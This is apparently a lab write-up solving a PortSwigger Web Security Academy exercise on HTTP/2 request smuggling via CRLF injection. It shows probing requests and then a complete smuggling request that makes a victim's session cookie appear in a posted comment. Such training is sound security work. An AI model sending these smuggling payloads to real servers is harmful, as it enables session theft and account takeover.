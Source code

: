 # HTTP/2 request smuggling via CRLF injection
# Objective
 This lab is vulnerable to request smuggling because the front-end server downgrades HTTP/2 requests and fails to adequately sanitize incoming headers.

To solve the lab, use an HTTP/2-exclusive request smuggling vector to gain access to another user's account. The victim accesses the home page every 15 seconds.

If you're not familiar with Burp's exclusive features for HTTP/2 testing, please refer to the documentation for details on how to use them. 

# Solution
## Analysis
### Basic request smuggling attact attempts
#### H2.CL attempt
There is no visible indication of HTTP/2 downgrading vulnerability.
```
POST / HTTP/2
Host: 0a4c00e403c389f6825dc5f6007b00d2.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 0

GET /404 HTTP/1.1
Host: 0a4c00e403c389f6825dc5f6007b00d2.web-security-academy.net
Content-Length: 5

x=1
```

|![](Images/image-61.png)|
|:--:| 
| *No visible indication of HTTP/2 downgrading vulnerability* |

#### H2.TE attempt
There is no visible indication of HTTP/2 downgrading vulnerability.
```
POST / HTTP/2
Host: 0a4c00e403c389f6825dc5f6007b00d2.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Transfer-Encoding: chunked

0

GET /404 HTTP/1.1
Host: 0a4c00e403c389f6825dc5f6007b00d2.web-security-academy.net
Foo: bar
```

|![](Images/image-62.png)|
|:--:| 
| *No visible indication of HTTP/2 downgrading vulnerability* |


### CRLF injection attempts
#### H2.CL attempt
Website is not vulnerable to `H2.Cl` request smuggling.
```
POST / HTTP/2
Host: 0a4c00e403c389f6825dc5f6007b00d2.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Foo: bar\r\nContent-Length: 0

SMUGGLED
```

|![](Images/image-66.png)|
|:--:| 
| *Request is denied due to duplicated CL headers* |

#### H2.TE attemp
Website is vulnerable to `H2.TE` request smuggling.

```
POST / HTTP/2
Host: 0a4c00e403c389f6825dc5f6007b00d2.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Foo: bar\r\nTransfer-Encoding: chunked

0

SMUGGLED
```

|![](Images/image-66.png)|
|:--:| 
| *HTTP/2 downgrading vulnerability* |


## Exploitation
First request poisoned the back-end. Second request that cames from victim is appended to the previous request. Thanks to this a new comment is posted on the website that includes victim's request headers including victim's session cookie.

`Content-Length: 604` heaser was added automatically.

```
POST / HTTP/2
Host: 0a4c00e403c389f6825dc5f6007b00d2.web-security-academy.net
Foo: bar\r\nTransfer-Encoding: chunked
Content-Length: 604

0

POST /post/comment HTTP/1.1
Host: 0a4c00e403c389f6825dc5f6007b00d2.web-security-academy.net
Cookie: session=MU0PLtwRpeJ2AV76Am6Lgpbtse6nyFXA; _lab_analytics=SdlnSmkY8YlobmilsWi2h20qQ1XGFysS4P4U9cU78FLEo9XOSIMlknQPAIZWR9xFSvItH6IYHtOoVUd3yVYudvptq9Sbu4xNUBawLoN0V87b7LMbnB6YmE2oo2d7DPmpVKqnEQ6JMvzMxPNLZKRPB4RYMUC6w0O1tsLTtzf7PKTS3mh14ExWmulhSKDVjaYTxpGm5dBrQCMnFpNSf2fDZK8CwzClcpSl7o2tLnSIsfwibXTQ8oBZvWpSyKyqsnsI
Content-Type: application/x-www-form-urlencoded
Content-Length: 928

csrf=A88gwj6Agh55XZYT4M70dqDluIZheemR&postId=8&name=Smuggled&email=Smuggled%40fSmuggled.com&comment=Smuggled
```

|![](Images/image-64.png)|
|:--:| 
| *Request was smuggled successfuly - tested manually by sending 2 requests* |
|![](Images/image-65.png)|
| *Request was smuggled successfuly - special header* |
|![](Images/image-63.png)|
| *Request was smuggled successfuly - session token in comment* |
